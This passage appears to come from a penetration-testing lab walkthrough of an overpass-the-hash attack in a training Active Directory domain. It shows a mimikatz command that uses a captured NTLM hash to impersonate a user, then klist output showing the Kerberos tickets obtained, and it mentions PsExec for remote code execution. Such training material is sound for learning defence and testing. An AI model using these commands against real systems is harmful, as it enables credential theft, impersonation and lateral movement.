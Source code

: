In this example, we reveal the hash `369def79d8372408bf6e93364cc93075` for the user `jen`

The essence of this attack involves turning the NTLM hash into a Kerberos ticket to avoid the use of NTLM authentication. We can once again use `mimikatz` for this.

```
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```

This will now launch a new PowerShell session that allows us to execute commands as `jen`

If we run `whoami` at this point we can see it shows our previous user's identity, but this is intended.

We can now generate a TGT as `jen` and view the granted ticket with the following commands

```
PS C:\Windows\system32> net use \\files04
The command completed successfully.

PS C:\Windows\system32> klist

Current LogonId is 0:0x17239e

Cached Tickets: (2)

#0>     Client: jen @ CORP.COM
        Server: krbtgt/CORP.COM @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: DC1.corp.com

#1>     Client: jen @ CORP.COM
        Server: cifs/files04 @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called: DC1.corp.com
```

We can now see our `net user` command was successful. We have now sucessfully converted our NTLM hash into a Kerberos TGT, allowing us to use any tools that rely on Kerberos authentication (as opposed to NTLM) such as the official PsExec application from Microsoft.

Although PsExec cannot accept password hashes for remote connections, we can use our generated Kerberos tickets to obtain code executeion on the remote machine we just generated our ticket for as `jen`.
